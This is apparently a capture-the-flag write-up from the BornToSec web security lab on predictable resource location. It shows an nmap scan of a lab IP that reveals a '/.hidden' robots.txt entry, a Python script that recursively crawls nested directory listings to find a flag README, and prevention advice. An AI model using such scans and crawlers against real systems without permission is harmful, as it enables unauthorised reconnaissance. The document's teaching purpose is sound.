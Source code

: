 # Predictable Resource Location

## Description
Attackers guess or brute-force file and directory names to locate hidden resources on a server.

## BornToSec
As i did the Hard Coded Credentials Exploit, I knew that there was a `hidden` folder in the project. 

Just to remind, i discover these hidden folders by using the following command:

```bash
nmap -v -A 10.11.249.222
```

And I get 

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.4.6 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: BornToSec - Web Section
|_http-favicon: Unknown favicon MD5: E7D08792AE6EC9DBBF3CEBFB48EE4057
| http-robots.txt: 2 disallowed entries 
|_/whatever /.hidden
|_http-server-header: nginx/1.4.6 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Now we still have a problem, in the `.hidden` folder, there is 28 folders that contains also 28 folders and so on. But there is only 3 levels of folders. And the bottom level of folders contains a `README`. So thats too much to do it manually but we can do it with a script.

```python
import requests
from urllib.parse import urljoin

def find_flag_readme(base_url):
    """
    Recursively search through nested directories to find README with flag.
    
    Args:
        base_url (str): Base URL to start searching from
    
    Returns:
        str: URL of README containing flag, or None if not found
    """
    def fetch_directory_contents(url):
        """Fetch directory contents, returning list of links."""
        try:
            response = requests.get(url)
            response.raise_for_status()
            
            links = []
            for line in response.text.split('\n'):
                if 'href="' in line and not 'Parent Directory' in line:
                    link = line.split('href="')[1].split('"')[0]
                    links.append(link)
            
            return links
        except Exception as e:
            print(f"Error fetching {url}: {e}")
            return []

    def recursive_search(current_url, depth=0):
        """Recursively search directories up to 3 levels deep."""
        if depth > 3:
            return None

        try:
            contents = fetch_directory_contents(current_url)
            
            for item in contents:
                full_url = urljoin(current_url, item)
                print(f"Searching {full_url}")
                
                if item.upper() == 'README':
                    readme_response = requests.get(full_url)
                    readme_response.raise_for_status()
                    
                    if 'flag' in readme_response.text:
                        print(f"Flag found in: {full_url}")
                        return full_url
                
                if item.endswith('/'):
                    result = recursive_search(full_url, depth + 1)
                    if result:
                        return result
        
        except Exception as e:
            print(f"Error searching {current_url}: {e}")
        
        return None

    return recursive_search(base_url)

def main():
    base_url = 'http://10.11.249.222/.hidden/'
    flag_readme_url = find_flag_readme(base_url)
    
    if flag_readme_url:
        flag_response = requests.get(flag_readme_url)
        print("Flag contents:", flag_response.text.strip())
    else:
        print("No flag README found.")

if __name__ == "__main__":
    main()
```

With this script, we are able to find the flag in the `README` file in the `/.hidden` folder.

## How to prevent it
- Implement Proper Access Controls: Ensure that sensitive resources are not accessible to unauthorized users.
- Use Randomized Resource Locations: Avoid predictable paths for sensitive resources to make them harder to find.
- Monitor for Brute Force Attempts: Implement rate limiting or CAPTCHAs to prevent automated guessing of resource locations.
- Use Intrusion Detection Systems (IDS): Monitor for suspicious activity that may indicate an attacker is attempting to locate hidden resources.